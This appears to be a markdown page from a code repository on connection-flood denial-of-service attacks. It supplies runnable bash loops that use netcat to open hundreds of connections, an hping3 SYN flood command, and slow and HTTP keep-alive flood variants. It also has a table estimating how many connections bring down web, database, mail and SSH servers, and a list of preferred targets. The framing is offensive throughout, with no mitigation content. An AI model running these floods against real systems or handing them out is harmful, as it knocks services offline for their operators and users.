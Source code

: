 ## 🔧 Attack Tools & Commands
- **hping3**: Connection flood testing
- **netcat**: Multiple connection establishment
- **Custom Scripts**: Automated connection flooding
- **Load Testing Tools**: JMeter, Apache Bench

### Manual Testing:
```bash
# Basic connection flood with netcat
for i in {1..1000}; do
    nc target_ip 80 &
done

# Using hping3 for connection establishment
hping3 -S -p 80 --flood target_ip

# Slow connection flood
for i in {1..100}; do
    (sleep $((RANDOM % 10)); nc target_ip 80) &
done

# HTTP keep-alive connection flood
for i in {1..500}; do
    echo -e "GET / HTTP/1.1\r\nHost: target\r\nConnection: keep-alive\r\n\r\n" | nc target_ip 80 &
done

# Monitor connection count
watch 'ss -tuln | grep -c ESTABLISHED'
```

## 💡 Historical Context
- **Early Internet**: Simple connection exhaustion attacks
- **Web Era**: HTTP-specific connection flooding
- **Modern Applications**: Database and API connection pools
- **Cloud Age**: Distributed connection flood campaigns

## 📊 Connection Flood Impact Matrix
| Target Type | Connections Needed | Primary Impact | Recovery Time |
|-------------|-------------------|----------------|---------------|
| Small Web Server | 100-500 | Complete outage | 1-5 minutes |
| Database Server | 50-200 | Query timeouts | 5-15 minutes |
| Mail Server | 200-1000 | Mail delays | 2-10 minutes |
| SSH Server | 10-50 | Login failures | 30 seconds-2 minutes |

## 🎯 Target Selection
Preferred targets:
- **Web servers** with limited connection pools
- **Database servers** with connection limits
- **Application servers** with fixed thread pools
- **Mail servers** with SMTP connection limits
- **Remote access services** (SSH, RDP, VNC)
